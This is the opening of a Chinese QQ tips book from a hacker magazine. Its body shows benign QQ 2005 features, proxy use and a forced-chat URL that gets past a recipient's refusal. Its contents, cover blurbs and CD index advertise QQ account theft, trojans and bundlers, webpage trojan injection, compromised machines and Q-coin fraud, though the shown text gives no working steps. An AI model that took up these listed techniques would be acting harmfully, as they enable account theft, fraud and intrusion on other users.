# QQ宝典1

- 30多种QQ使用技巧，让你的QQ最个性
- 30多种QQ辅助工具，让你轻松玩转QQ
- 30多种QQ签名方法，让你随心所欲盗Q
- 20多种QQ挂机诀窍，让你的QQ最厉害
- 20多种QQ充值秘技，让你的Q币永远也花不完
- QQ宠物培养大解析，让你以后上网再也不会寂寞
- …… ……

## QQ宝典随手，玩转QQ不用愁！

## 《黑客 X 档案》制作

## QQ宝典

作者：郑炎（小鱼修炼中...）

书　　名：QQ宝典
制　　作：《黑客X档案》编辑部
出 品 人：孙胜利
策　　划：杨东柱
作　　者：郑炎
编　　辑：姜连成 丛林 杨树磊
平面设计：谭海梅
排　　版：石利武
网　　址：http://www.hackerxfiles.net
电　　话：010-88560080
定　　价：人民币 12.80 元
所载文字和图片，经著作权人授权本社，未经许可，不得转载。版权所有，违者必究。

## 作者简介：

- 网名：小鱼修改中
- 年龄：1988年出生，今年17岁
- QQ：209090（注意：叫我帮他充QB的我一律不加）
- E-mail: applezyzyzy@163.com
- 个人爱好：
  - 网络安全是我的最爱，做站也是生活中的一部分
- 最喜欢做的事情：
  - 提权成功后的那种快感，在N个人防守下还能照样轻松进球！
- 最不喜欢做的事情：
  - 放假还要补课！（不知多少次听过“伪rip帮的补课么？”真是TMD的太色了！）
- 所在省份：陕西

**自我介绍：**

我其实是大家中的一个，对什么都略知一点，但是对什么都不精通。准备现在开始好好学习各种网络编程语言，给自己升升级！
从初三的一个机房逃课中开始接触到了网络安全，当时后位同学告诉我如何如何的控制别人的电脑（现在想想，还挺有意思的！），之后开始自己研究可走向了网络安全这条道路，一直到现在！

**要感谢的朋友：**

首先要谢谢我的好兄弟，也是最近从网上认识的，老冰也是西安的而且跟我年龄一样！真是有缘啊！
下面隆重揭晓他的名字——幽鬼狼魂（名字好怕怕哦）欢迎各位小客们访问他的小站哦，挺适合菜鸟学习的：http://www.20ww.com。
我挺佩服他的网页制作水平！！
还有号称电脑天才的Computer20帮天书指示关于QQ宠物的脚本内容！感谢网络中的一些朋友思彤、叶清风等！
最后希望大家能够正确理解“黑客”这个词，它不是“破坏”的代言人！请不要伤害我们的服务器，对你我都有好处的！

## 目录

| 文章名 | 页码 | 文章名 | 页码 |
|---|---|---|---|
|  |  |  |  |

## 第一章 玩转你的QQ

- 1.1 QQ2005新增功能大曝光 —— 8
- 1.2 IP任我变 —— 10
- 1.3 我的IP你别想知道 —— 12
- 1.4 QQ加纸何人为好友聊天 —— 13
- 1.5 QQ聊天表情境到惊奇境界 —— 13
- 1.6 QQ免费建四个固定群 —— 15
- 1.7 QQ魔法书 —— 15
- 1.8 QQ想跟谁聊就跟谁聊 —— 16
- 1.9 自动转换状态 —— 16
- 1.10 QQ也玩远程控制 —— 17
- 1.11 彻底隐藏你的QQ —— 17
- 1.12 打破QQ好友限制 —— 18
- 1.13 对付“仇人”新方法——QQ秀整人 —— 18
- 1.14 “刘妃”用良苦计 —— 18
- 1.15 安全防范另类新技巧四则 —— 19
- 1.16 将自己加为好友 —— 19
- 1.17 解除QQ手机捆绑的超简单方法 —— 20
- 1.18 快速定位好友 —— 20
- 1.19 另类FTP —— 20
- 1.20 免费上传QQ商城头像 —— 21
- 1.21 免费做会员 —— 21
- 1.22 屏蔽魔法表情 —— 21
- 1.23 普通QQ号可以克隆QQ好友 —— 22
- 1.24 轻轻松松不让你踢QQ —— 23
- 1.25 让自己的头像靠前 —— 24
- 1.26 使对方的QQ黑名单失效 —— 24
- 1.27 刷屏，我刷刷刷! —— 25
- 1.28 隐藏QQ摄像头 —— 26
- 1.29 四则非常规秘籍 —— 26

## 第二章 QQ软件乐园

- 2.1 3款QQ在线查询器 —— 27
- 2.2 PPQQ之反隐精英 —— 28
- 2.3 QQ场景编辑器 —— 28
- 2.4 QQ防盗专家 —— 29
- 2.5 QQ号吉祥算 —— 30
- 2.6 QQ视频非接不可 —— 30
- 2.7 QQ守护神——QQ安全精灵 —— 31
- 2.8 QQ万能登录 —— 32
- 2.9 QQ万能发送精灵 —— 33
- 2.10 QQ消息轰击器——方箭挠心 —— 33
- 2.11 QQ消息群发王 —— 34
- 2.12 QQ优化设置 —— 35
- 2.13 QQ远控精灵 —— 35
- 2.14 QQ在线查询强制聊天器 —— 36
- 2.15 QQ资料个人修改器 —— 37
- 2.16 QQ自动登录器 —— 37
- 2.17 流氓一族新宠——QQ群会快手 —— 38
- 2.18 对付仇家新办法——阿拉可攻击器 —— 40
- 2.19 筑梦版免密码登录器 —— 40
- 2.20 局域网MM哪里逃之QQSniffer —— 40
- 2.21 网吧Q号探测器——QQSniffer —— 41
- 2.22 密码安全锁 —— 42
- 2.23 免费广告宣传——农民QQ群发器 —— 42
- 2.24 全新QQ机器人 —— 43

## 第三章 QQ研究院

- 3.1 菜鸟必读 —— 44
- 3.2 专业盗QQ之间谍QQ夫盗 —— 46
- 3.3 专业盗QQ之强强QQ —— 47
- 3.4 专业盗QQ之QQ后黑手 —— 47
- 3.5 专业盗QQ之QQ远程盗号木马 —— 48
- 3.6 专业盗号之密码偷瞄器 —— 49
- 3.7 专业盗号之密码键盘 —— 50
- 3.8 捆绑篇之永不被查杀的捆绑机 —— 51
- 3.9 捆绑篇之Poshare文件捆绑器 —— 52
- 3.10 捆绑篇之超强捆绑机 —— 52
- 3.11 捆绑小技巧之图标替换 —— 53
- 3.12 盗号必知还原卡还原精灵破解 —— 54
- 3.13 网吧盗号通杀篇之一 —— 56
- 3.14 网吧盗号通杀篇之二 —— 57
- 3.15 网吧盗号通杀篇之三 —— 58
- 3.16 网页挂马盗QQ之一 —— 59
- 3.17 网页挂马盗QQ之二 —— 60
- 3.18 利用P2P软件盗QQ —— 61
- 3.19 利用社会工程学盗号 —— 62
- 3.20 盗号必备工具之密码查询器 —— 63
- 3.21 Q-zone漏洞分析 —— 64
- 3.22 QQ自动传送文件病毒清除办法 —— 66
- 3.23 QQ大盗不再烦 —— 67

## 第四章 挂爆你的QQ

- 4.1 菜鸟必读 —— 68
- 4.2 挂Q软件之myIM —— 69
- 4.3 制作肉鸡挂Q专用版MYIM —— 71
- 4.4 专业挂QQ之QQ任我挂 —— 73
- 4.5 专业挂QQ之一KOQQ —— 73
- 4.6 专业挂QQ之QQ升级天使 —— 74
- 4.7 专业挂QQ之总结篇 —— 75
- 4.8 网吧永久挂QQ —— 76
- 4.9 打造肉鸡 —— 78
- 网吧一键挂QQ全过程(上) —— 78
- 4.10 打造肉鸡，网吧一键挂QQ全过程(下) —— 82

## 第五章 QQ宠物跟我玩

- 5.1 教你来养QQ宠物 —— 85
- 5.2 QQ宠物辅助工具 —— 88
- 5.3 QQ宠物计算器 —— 89
- 5.4 QQ宠物辅助工具之Q宠保姆 —— 89
- 5.5 QQ宠物辅助工具之QQ宠物助手 —— 90
- 5.6 QQ宠物辅助工具之Q宠奶妈 —— 90

## 第六章 Q币充值大曝光！

- 6.1 基础篇之代理全接触 —— 91
- 6.2 充QB必读之代理安装与使用 —— 93
- 6.3 充QB必读之制作一键搞定ADSL密码 —— 96
- 6.4 打造免杀ADSL一键密码读取器 —— 97
- 6.5 基础篇之Radmin配置 —— 99
- 6.6 充QB必读之灰鸽子配置篇 —— 100
- 6.7 充QB必读之防火墙通杀篇 —— 102
- 6.8 最简单的充QB方法—4899 —— 104
- 6.9 从SA到充QB —— 107
- 6.10 NT弱口令充QB —— 111
- 6.11 菜鸟利用网络硬盘得肉鸡充QB —— 114
- 6.12 挂马系列之网页木马总攻略 —— 116
- 6.13 挂马时的几个技巧 —— 117
- 6.14 菜鸟批量网站挂马 —— 119
- 6.15 最新ADSL肉鸡捕获—BT共享 —— 122
- 6.16 利用ADSL冲灰鸽子VIP全记录 —— 124
- 6.17 充QB时注意的两个问题 —— 127

## QQ宝典

## 光盘索引

### 军火库

- **VNC Enterprise Edition**：这是一款鼎鼎有名的远程管理工具，类似Win2000的终端服务，相对于其它管理工具，有自己不少的特点。
- **惊雷梦幻西游侵略者：JLmenghuan.exe**：木马主程序，用于生成木马的工具。
- **Access 数据库密码破解器**：可以破解目前已知的各版本Access数据库密码，支持20位中英文密码的破解，支持批量数据库破解。
- **Mail PassView**：能显示电子邮件客户机程序的密码，及其它帐户详细资料的小型密码恢复工具。
- **pubwin 通用密码破解**：网吧中使用。
- **CodeCrack**：代码加密解密。
- **Serv-U 本地管理口令读取器**：忘记密码可以用它重新读取到密码。
- **adsl 密码终结者**
- **ftp 密码猜解工具**
- **Wins扫描工具 HS_WINS**：能够准确地扫描开放了wins服务的主机以及主机系统，方便更好的wins渗透。
- **MySql Weak Pass Scanner**：这个程序只能扫描一个IP段，而且大范围扫描的时候有假死的现象。
- **DFind**：一款极好的命令行下的扫描工具，新增加了udp扫描功能，具体看帮助。
- **超强扫描器 Superscan4.0**：比superscan3.0增加了一些功能，是一款TCP端口扫描器、Ping和域名解析器。
- **彩影**：基于Windows2000/XP/2003平台提供常用网络服务。
- **OfficeFIX**：一个Microsoft Office的修复工具，它可以修复损坏的Excel、Access和Word文档。

**AntiVir**：可以保护你的电脑免受到电脑病毒的侵害，有效的保护个人电脑以及工作站的使用。

**FinalRecovery**：功能强大而且非常容易使用的数据恢复工具。

**木马分析专家个人防火墙**：为你的计算机提供全面的保护。

### 图书相关

- **QQ2005开启会员功能**：开启QQ 2005会员功能（实现聊天窗口无广告、登录IP地址及时问提示）。
- **QQ 群刷屏的 VBS 脚本**
- **3款QQ在线查询器**：包括QQ在线查看器、QQ在线状态查询器、QQ状态查询小精灵 V2。
- **QQ场景编辑器**：界面亲切、友好，所见即所得的编辑环境，令你轻松完成QQ场景的整个制作过程，包括背景图片的导入、设置以及场景动作的设计、实现等。
- **PPQQ之反隐精英**：一个能够让你准确的判断QQ上的某个好友是否隐身在线的免费工具软件。
- **QQ密码防盗专家**：会把密码截取到，然后发送到QQ盗密者的邮箱中。
- **QQ视频非接不可**：如果你非常想与某位漂亮MM进行QQ视频聊天，但她马上拒绝了你，怎么办？
- **QQ万能发送精灵**：你想不想给未通过验证的漂亮MM或帅GG发送消息呢？给她美言几句，她就加你为好友了。

**QQ优化设置**：一款小巧实用的QQ优化软件，可以把一些QQ中不常用但是占地方的功能删除掉。

**QQ在线查询强制聊天器**：最新推出的强行聊天工具，也是利用建立临时会话的原理制作而成的。

**QQ05贺岁版免密码登录器**：放在QQ目录下，运行该文件后会自动启动QQ，输入任意密码即可离线登录。用来查看目标QQ号的好友信息、聊天记录等，请勿滥用。

**QQSniffer**：可以嗅到整个局域网内的QQ号。

**网吧Q号探测器**：基于交换网络环境下QQ号码嗅探工具，只在本机运行，不需要事先在远程计算机安装服务端，不管是否开了共享。

**全新QQ机器人**：想看看你的QQ自动与人聊天吗？试试这套软件吧。你可以端一杯茶，仅仅轻点鼠标，甚至让本软件全自动代替你进行聊天，享受快速聊天的感觉。

**QQ密码查询器**：软件为了防止查询过多QQ号被腾讯封IP（IP被封后一般20—30分钟就又可以使用），所以支持HTTP代理查询密码的功能。

**强强QQ绝爱去后门版**：它的配置非常的简单，在接收邮箱中输入你的邮箱地址即可。

**QQ木马Q后黑手**：用网页收信是很安全的，大不了被人从内存中挖出ASP接口地址，但那没什么大问题。

**密码结巴**：可以捕获Win9x/Win2k/WinXp下的几乎所有普通窗口和网页的登录密码。

## @@动画园

**网页木马总攻略**：图书系列动画——网页木马总攻略。

**Q币充值大曝光**：包括：Q币充值大曝光栏。图系列教程之充Q币充值卡、Q币充值大曝光栏目系列教程之注册码软件随便买。

**整理各大漏洞集合收集**：包括最新大大小小30多个漏洞集合。

**ADSL破解相关**：包括：打造免杀ADSL一键密码读取器、打造一键获取ADSL账号密码。

## 超·值·教·程

**WINDOWS核心编程**：本书是讲解Windows操作系统内部机制的专著，作者从基本概念入手，全面系统地介绍了Windows的各种基本构件，如进程、线程、DLL和内存管理等。

**IIS6最佳安全性实战**：IIS6最佳安全性实战视频教学。

**精通Linux必备教程**：包括linux ChinaUnix、Linux版精华区和红帽Linux9从入门到精通。

**BT加速技术手册**：要使BT下载的速度快起来，只要针对不同的情况在自己的电脑中作一些相关的设置就行了。

**摄影专家之路**：爱好摄影的朋友可以好好学习，一定能够学会不少东西。

### 自娱自乐

- 东郭先生
- 加班加傻了
- 接吻还是戴眼镜好
- 各个国家的最新科学技术
- 躲虫子
- 猫咪
- 狗子尖逃难记
- 幸好有你
- 约定
- 寻
- 爱的复活
- 女孩你的一分钟有多长

## 第一章 玩转你的QQ

腾讯QQ从版本2004到2005可谓是发生了巨大的变化，首先是界面更自然美观了，其次是各项功能更成熟实用了。QQ2005那时尚流畅的界面设计、独具匠心的产品功能、人性化的创新体验，在给大家带来强大冲击力的同时，也会让你切身感受到QQ2005“网络新生活，体验新感受”的设计理念。

### 全新界面UI

QQ2005继承了腾讯QQ一贯的高品质设计，在延续了QQ2004经典设计的基础上，又从界面颜色到细节体验都进行了大胆的创新和尝试。默认QQ界面采用深蓝色的主色调，与系统配合更加协调，全面提升了界面的立体感和光泽度，在拥有完美质感的同时，细节性的曲线设计也足见深厚的UI功底，充满艺术美感。QQ头像采用了全新的靠左排列方式，更加清晰明了，也使好友面板空间更加紧凑合理，如图1。

大家还可以更换默认的QQ界面的颜色，如图2。QQ菜单采用了全新的XP风格设计，独特的设计使久未改观的QQ菜单显得更加专业化和系统化，如图3。

> > 不少用户提示：QQ华丽的外表是以内存消耗为代价的。通过任务管理器可以看到相关进程的内存占用情况（如图4）。

### 群内多人语音

QQ2005 支持群内多人语音，比电话还清晰的 QQ 超级语音和超人气的 QQ 群无缝结合，群中多人语聊随心所欲，只需带上耳麦即可享受（可以进行语音交流，不用再打字了）。方法是：首先打开你想语聊的 QQ 群，然后点击群上面的“多人语音”，如图5，在弹出对话框的“讨论组名称”中填入想要讨论的话题，在右边勾选上邀请加入讨论组的人，每勾上一个在左边就会相应的自动添加上，如图6。

确定添加完讨论组成员后点击“提交”即可享受 QQ2005 带来的比电话还清晰的 QQ 超级语音，在提交后被邀请者的屏幕上会显示“某某邀请你参加多人对话”的对话框，点击“接受对话”即可成功与群内用户实现多人语音，如图7。另外在群聊窗口中，点击发言人昵称即可发起临时会话、查看资料或是申请加为好友，如果在群中看见感兴趣的话题，只要点一下昵称就可以和发言人进一步会话，群聊私聊点点动心，如图8。群中公告还支持表情转义，为您的公告平添一份生动。

### 聊天记录平板模式

QQ2005 新增了聊天记录平板模式，比起以前的聊天记录查看起来更为方便，聊天记录再现聊天窗口的排列模式，大大提升了查看记录的便捷度，消息管理器中也增加了此模式，细节之处也不忘改善，如图9、图10。

### 全新的QQ搜索

仔细观察 QQ2005 你会发现在它下面多了一个搜索的功能，QQ2005 在主面板整合了 QQ 搜索，内嵌 Google 搜索引擎，QQ 搜索现已全新改版，进一步增强了文档搜索的能力，如图11，默认是 QQ 搜索！

### 全面整合个人资料

在 QQ2005 中个人资料的界面改掉了以前的那种传统模式，大胆的采用了个性十足的个人资料界面，如图12，其中“备注/设置”可以让你轻轻松松设置备注！新增个人资料 Tips。一体化的操作和展示简便明了，倾情打造你的 QQ 身份证。

### Q-ZONE，我有我空间

QQ2005 又一大亮点就是 QQ 个人空间的功能，在 QQ2005 中，“我的好友”第一位是自己的头像，双击自己头像后就会弹出 QQ 个人空间，如图13，然后发挥你的想象力尽情地打造属于自己的个性空间吧，由于 QQ 空间现在还处于测试阶段所以大家抓紧时间申请吧！

> > Q-ZONE 简单形容来说，Q-ZONE 就是专为展示你自己的 QQ 个性空间主页系统。主动与朋友分享你的心情日志、相册、家园、互动等丰富功能，并且提供多样皮肤、漂浮物、挂件等装饰选项，让你的 Q-ZONE 更具个性。

### QQ 通讯录

QQ2005 推出了通讯录功能，在通讯录中，不仅可以便捷地添加生活中的朋友、同学或者 QQ 好友的各种详细资料，还可以随时在通讯录中通过 QQ 短信和电子邮件与他联系。从此，不必再担心手机或者电话簿丢失了，QQ 到哪里，您的通讯录就到哪里！从安全角度出发，通讯录提供了单独设置密码功能，并且对本地数据、网络传输实现了全程加密，充分保证了你的数据安全，如图14。切换到 QQ 通讯录页面，右键单击选择“新建联系人”即可打造自己的个性通讯录！

### 书写短信模式，网下聊天得心应手

QQ2005 新增了一项发送短信的功能，只要对方绑定了手机你就可以用 QQ 实现网下聊天，是不是很 Cool？双击好友的头像，在弹出的消息对话框点一下最上面有手机图案的按钮再选择“短信通”，如图15，然后选择相应的支付方式，即可享受 QQ2005 带给你的网下聊天！

### QQ 秀闪装

QQ 秀闪装是 QQ 秀推出的一个新产品，在闪装的世界，可爱的宠物会蹦会跳会发声，个性的你可以为你的 QQ 秀选择各种个性音效，绚丽的饰品将你的 QQ 秀点缀得更加绚丽夺目，有声有色，绚丽多彩，尽在 QQ 秀闪装。

### QQ 宠物

你一定知道前一阵子风靡的电子宠物吧，小小的宠物曾令多少朋友们时时刻刻念念不忘。既然是宠物，那就要去关爱她、呵护她。现在 QQ 将这一切移植到了网络中，也就是说，我们拥有 QQ 宠物，就好像得到了一只在虚拟世界中可爱的动物。只要您可以上网，就可以对它进行悉心照料，关怀备至。QQ 宠物会在电脑屏幕的一角忠实地陪你度过网络时光。详细情况可以登陆 pet.qq.com！赶快敲动键盘去领养吧！

### QQ 网络硬盘

QQ 自 2004 版本后推出了深受喜爱的网络硬盘，用它放 HackTools 就方便多了。怎么开启呢？在 QQ 面板里找到像地球图案的标志点击后即可开启，如图16。普通用户只有 16M 的空间，这里给大家说一个技巧让它变成 32M，先将 QQ 切换到 TM 状态，如图17，再看看网络硬盘是不是已经 32M 了？

### QQ 商务伴侣

在我们不在线时好友可以通过商务伴侣来给我们留言，来看看怎么开启？在 TM 状态下点击版面上方的“商务伴侣”，在弹出的对话框中选择“开通我的商务伴侣”即可开通！还有在腾讯 TM 中可以免费使用自定义头像和备忘录！

### 腾讯通 RTX

腾讯通 RTX（Real Time eXpert）是腾讯公司推出的企业级实时通信平台，致力于帮助企业提高运作效率，降低沟通成本、拓展商业机会，是一种高度可管理、低成本、易部署的 IT 平台。RTX 集成了丰富的沟通方式，包括文本会话、语音/视频交流、手机短信、文件传输、IP 电话、网络会议以及应用程序共享、电子白板等远程协作方式。

### 全新手机用户尊贵标识

通过手机登录 QQ 的用户，享有尊贵醒目的身份标识。手机 QQ 用户将独有专用头像、头像右侧图标、专有 QQ 秀、个人资料 Tips 图标等，如图18。

### 支持小灵通号码登录

QQ2005 支持小灵通号码登录，用小灵通号码就能轻松登录 QQ，畅游 QQ2005，如图19。

### 如何使用拨号器

QQ 拨号器是为了方便用户使用 USB Phone 而设。在拨号器窗口中，您可以输入 QQ 号码，查看输入号码的好友匹配列表，并且可以选择其中一位好友进行拨号，如图20。

拨号器可分为以下几个部分：

- **号码编辑框**：接受号码输入。
- **联系人列表**：列出与当前输入号码匹配的联系人及其最近拨号号码。
- **历史/匹配**：历史状态时显示最近拨号记录；匹配状态时根据当前输入内容在 QQ 好友和通讯录联系人中查找匹配。
- **删除**：删除号码输入框中当前光标位置字符。
- **设置**：打开设置菜单。
- **拨号**：当输入号码有效时可用，点击可进行拨号或结束当前拨号/通话。

输入/修改号码后，QQ 将在列表框中显示和输入的号码相匹配好友联系人，单击联系人列表中的行将对应的号码显示在输入拨号框中。双击列表中的行将对应的号码显示在拨号输入框中，并且对该号码进行拨号。

## 总结：

QQ2005 在界面与功能上不断创新，融合流行和时尚元素，带来更强的感官享受。在体验上，从细节入手，全面提升易用性和功能性。QQ2005 示出革新，不断满足日益提高的应用需求，可以说 QQ 正在迈向成熟化，成为网络通讯必备的大型软件。

各位小菜有没有这样的经历，跟某位朋友聊天时明明知道他跟你在一个城市，可 QQ 上却显示的是在另外一个地方，比如美国、加拿大等，是不是很神奇？（菜菜：是啊！要改变自己的 IP 应该很难吧？小鱼：呵呵！自己的 IP 要改变当然很难了！其实他们是使用的代理上的 QQ，这个是 QQ 代理的功能），如图1。

用代理上 QQ 就能轻轻松松地改变自己登录 QQ 的 IP 地址了，不要把它看成很复杂的东西！（菜菜：好哥哥，教教我！小鱼：——！~）

代理上QQ，那么没有代理怎么上啊？不急，这里介绍一款工具“QQ代理公布器XP”（你也可以登录 http://daili.nfan.org/，这里每天都有HTTP代理更新），它的功能有：

1. 获取Sock5或HTTP代理数据。
2. 根据地区查找相应的IP段。
3. 查找IP地址的地区位置。
4. 图形界面的Ping操作。

这里我们使用的是它的第一个功能，首先到www.cz88.net下载最新的版本，安装上后双击运行（安装过程很简单不在说了），界面如图2，界面简单明了，相信聪明的你一看就会了吧！^^

选择上面菜单里的“系统”->“读取HTTP代理”，如图3（菜菜：为什么不选“读取SOCKS5代理呢？小鱼：选择使用http的代理而不是SOCKS，因为前者的速度比后者要快得多，所以选它）。然后稍微等上一会儿待读取完毕，就会出现很多代理了，如图4。“端口”里显示的是HTTP代理的端口，“IP地址”里显示的是HTTP代理的IP地址。我们随便挑选其中的一个来使用，打开QQ登录框里的“高级设置”，在“网络设置”版块里的“类型”项选择“HTTP代理”，选择后下面的选项变成了可用状态，在“地址”里任意填上一个刚刚用QQ代理公布器显示的IP地址，在“端口”里填上HTTP代理所对应的端口，“用户”和“密码”不用填，设置好后如图5，然后你可以点击“测试”来看看这个代理是否可用，如果提示“无法连接到代理服务器”，就再换一个试试，测试成功后如图6，然后输入号码进行登录，马上看看自己QQ的IP变了没？如图7，哈哈怎么样，是不是成功了！现在，IP地址就任你自己变了。

## 我的IP你别想知道

前边我们已经学了如何隐藏自己的IP地址，常规的做法是使用代理服务器，但是这么做有两个缺点：一是速度比不上不用代理的“直聊”，特别是传送文件速度慢；二是如果代理服务器出现故障就无法使用，需经常查找更换代理，非常麻烦。有没有更好的办法呢？答案当然是肯定的！图1是我没有设置前的IP，现在来跟我一起设置就能隐藏自己的IP地址了。

首先打开QQ下面的“QQ菜单”->“个人设置”中的“网络安全”，如图2、图3。在“网络安全”的选项中，将下面的“通讯模式选择”改为“通过服务器模式”，如图4，再点击“确定”即可。我们再来看看自己的IP，如图5，是不是隐藏了！赶快动手隐藏吧！

## 1.4 QQ加任何人为好友聊天

这个方法是利用QQ通讯录中的新建联系人，连10000号都能加哦！

好了，马上开始：打开QQ通讯录，在里面新建一个“联系人”；在“QQ号码”中输入你要加的联系人的QQ号码（这里以10000号为例）；输入完号码后点击“读入资料”，出现资料后点击确定即可，如图2。然后点“完成”即成功。在通讯录中单击右键即可对他发送消息，如图3。

## 1.5 QQ聊天表情玩到最高境界

自从QQ推出QQ表情后，聊天变得更加有趣了。QQ里面的表情图标很丰富，也很好玩，但是每次一个一个地发送表情很单调，也不能体现个性！

那就来点壮观的，只要把下面的代码直接复制到QQ聊天窗口中，就可以看见很多表情图片，而且都有规律地排列着，场面很壮观。

打开QQ对话框然后在聊天窗口输入如下代码：

1. 献给爱人的一颗火热的心

```
/WX/WX/WX/WX/WX/WX/WX/WX/WX/WX/WX/
/WX/WX/XIN/XIN/WX/WX/WX/XIN/XIN/WX/WX/
/WX/XIN/XIN/XIN/XIN/WX/XIN/XIN/XIN/XIN/WX/
/WX/XIN/XIN/XIN/XIN/XIN/XIN/XIN/XIN/XIN/WX/
/WX/WX/XIN/XIN/XIN/XIN/XIN/XIN/XIN/WX/WX/
/WX/WX/WX/XIN/XIN/XIN/XIN/XIN/WX/WX/WX/
/WX/WX/WX/WX/XIN/XIN/XIN/WX/WX/WX/WX/
/WX/WX/WX/WX/WX/XIN/WX/WX/WX/WX/WX/
/WX/WX/WX/WX/WX/WX/WX/WX/WX/WX/WX/
```

2. 说出，我爱你

```
/cy/cy/cy/cy/cy/.../
/cy/cy/cy/cy/.../
/cy/xin/cy/cy/cy/xin/xin/xin/xin/cy/xin/cy/cy/cy.../
...
效果如图2。
```

3. 闪电下的 I Love You

```
/shd/shd/shd/.../
(*)/wen/wen/wen(*).../xin(*).../
...
效果如图3，怎么样不错吧？
```

4. 最后来个更壮观的——代表爱情的红玫瑰

```
/ty/ty/ty/ty/.../
/ty/ty/ty/.../xin/ty/.../
...
```

```
/ty/ty/ty/.../
/ty/ty/yb/yb/.../
...
效果如图4。
```

有了这些超酷的聊天表情，MM 怎么不被你打动！最后，为了方便大家复制我已经将代码和省略的代码都放在光盘里了！

## QQ 免费建4个百人群

QQ 免费建4个百人群……（步骤说明）进入自己的 QQ（网店）→ 在 QQ 面板上方单击“群”→ 选择相关功能并按提示操作。文中包含一个链接示例：`http://...`，以及 `clientkey`、`signature` 等参数说明，最后提交即可建立多个百人 QQ 群。

### 1.7 QQ 魔法书

QQ2005 推出了一个新功能，有很多朋友都没有注意到，我在这里就介绍一下，它就是“QQ 魔法书”，这项功能是 QQ 自带的，我们来看看如何使用它吧！

打开 QQ 下面的“系统菜单”->“娱乐”，就能看到“QQ 魔法书”。单击打开后，里面的魔法书基本上都是免费的，下载后会在“我的书架”中出现，接着就可以阅读了。

既然是魔法书，那当然是具有动画效果的魔法书了（如图4）。还不赶快去抢购？晚了收费可别怪我哦！

### 1.8 让你难堪的就拒绝的她（他）

曾几何时，千方百计地想加某位 MM？可她却千方百计地拒绝你？现在不用怕了，下面我来教大家一个强制聊天的办法。轻松与任何 QQ 号码聊天，不需要通过对方验证，即使对方设置的是拒绝加入，也能直接给对方发送信息，当然发送表情也是可以的。

```
http://wpa.qq.com/msgrd?V=1&Uin=******&Site=ioshenmue&Menu=yes

tencent:/Message/?Uin=******
```

使用方法：将“******”替换成你想强制聊天的 QQ 号码。例如输入目标号码后，即可弹出对话框并发送消息。若开了多个 QQ 号，会先出现号码选择窗口；若未开启 QQ，会出现提示要求先登录 QQ。虽然强制聊天有些不妥，不过作为技巧了解即可。

### 1.9 自动转换状态

聊天时若长时间无操作，QQ 可以自动切换状态并自动回复。进入“系统菜单 -> 个人设置 -> 系统设置”，切换到“状态转换和回复”选项，勾选允许自动转换状态，并设置“X 分钟鼠标键盘无动作时自动切换到”某种状态；还可配置自动回复内容。这样在暂时离开时也能自动应答消息。

## 1.10 QQ也玩远程控制

不知各位小菜是否发现QQ中有一项远程协助的功能？它在我们聊天窗口的右上角，相信很多朋友都没用过吧，如图1。

那么“远程协助”是什么意思呢？可以理解它为远程共享，通过软件和互联协议实现对远程计算机上某些功能的享用，通俗地讲，就是可以操纵对方的电脑。

如何使用呢？像图1那样，单击聊天窗口上的“远程协助”就可以向好友发出请求了，这里要注意远程协助是请求性质的，也就是说，你发送请求对方同意后才可进行，而你可以看到对方操作你的屏幕（注：远程协助是请求对方来控制你）！

对方同意你的请求后，如图2，就能建立远程协助了，这时可以看到控制方的左侧部分是聊天窗口，正常交流不受影响；右侧分为对方形象、应用程序共享、我的QQ秀等部分，其中“应用程序共享”中显示的就是你的桌面，如图3。接着你可以点击右侧的“申请控制”来请求对方操作你的屏幕，如图4，当然在对方操作你时你也可以通过快捷键来终止！远程协助广泛应用于教学和通讯方面，更为强大的用处还需要你去慢慢发掘了！

## 1.11 扮成隐身你的QQ

你是否有过上班时被BOSS发现你在跟MM聊天，在学校上课时被老师发现你偷偷下载了QQ在聊天！那可就……

今天教大家两种隐藏QQ的方法，其实算不上什么方法只能说是技巧罢了！

1. 让QQ无声无息

如果你的QQ无声无息，那么BOSS不仅听不到你聊QQ时的声音，而且在他走进你之时你能在那万分之一秒将QQ隐藏的无影无踪（怎么像武侠片？），现在跟我来隐藏QQ吧！首先打开“个人设置”->在“基本设置”中我们将“在任务栏显示图标”前面勾上，在将“自动弹出信息”前面的勾去掉（要是BOSS看见你屏幕上突然弹出QQ聊天窗口，呵呵，那你可走运了），如图1。在“热键设置”中设置一下提取消息的热键，这里我的设置是ctrl+B，如图2。接下来在“声音设置”中我们将“打开声音”前面的勾去掉，如图3，这样QQ就没有声音了！好！大功告成，点击应用！怎么样QQ消失的无影无踪、无声无息了吧！那么么找它呢？对了，就是用刚刚咱们设置的热键，我刚才设置的是ctrl+B，按一下，怎么样出现了吧！现在你可以尽情的在老师、BOSS眼皮底下聊QQ了！

2. 一键隐藏

这招比较实用，可以说是一键隐藏，我们打开QQ，在QQ右上是不是看见一个“加号”，我们左键点击它，在弹出的窗口中……选择“界面隐藏”，如图4，QQ主界面变透明了？我们再将QQ最小化，哈哈！消失了吧！怎么找回？当然还是用刚刚说到过的设置热键的办法，这里我是按ctrl+B，是不是又出现了？再点那个“加号”选“界面显示”，界面透明度又恢复正常状态了。

## 突破QQ好友限制

大家来看看图1，看见了么？好友人数：723人。小菜：QQ的上限只能加到500人，你怎么加到723人那么多的啊？啊，下面我就来教大家如何打破QQ的好友限制，无限的加好友！其实方法也是非常简单的，首先必须保证你有两个或两个以上的硬盘分区，然后将QQ客户端在两个硬盘都安装上，我第一个安装在D盘，第二个安装在C盘（比如 d:\QQ，c:\QQ），然后我登录D盘的QQ，也就是你第一个安装的，把里面的好友加到500个满了，然后关掉QQ，接着登录C盘的那个QQ，就是你第二个安装的QQ，在登录后删除一部分好友，然后再加满500人（注：删除后加的好友不要和删除的那些人重复，删除的和加的好友不能一样！）。再关掉QQ，重新登录D盘的QQ，就是第一个安装的，由于系统缓存还驻留着以前的好友信息，加上新更新的信息，所以，你会看到你的好友数突破QQ好友上限的限制了！

## 对付仇人新方法——QQ秀整人

腾讯QQ秀增加整人功能，看以后谁还敢惹你！哈哈！只要你有足够的Q币，就可以整人，被整者在六个小时后才能通过重新设置QQ秀修改，可以想象你“仇人”在这6个小时里的样子。前提条件：整人专区商品只能在整人方和被整方相互为好友时才能使用。就是他必须在你的QQ好友里！这个应该不难办到吧！^-^ 登录 http://qqshow.qq.com/，进入“主题”里的“整人专区”，如图1，选好方案后点击“我要整人”，输入好友QQ号码后就能对他进行6个小时的摧残了！呵呵！如图2，在这6小时内对方QQ秀上还会出现“我被QQ号码（整人方QQ号码）整了！”的字样，哈哈！好玩吧！

### 对她用心良苦

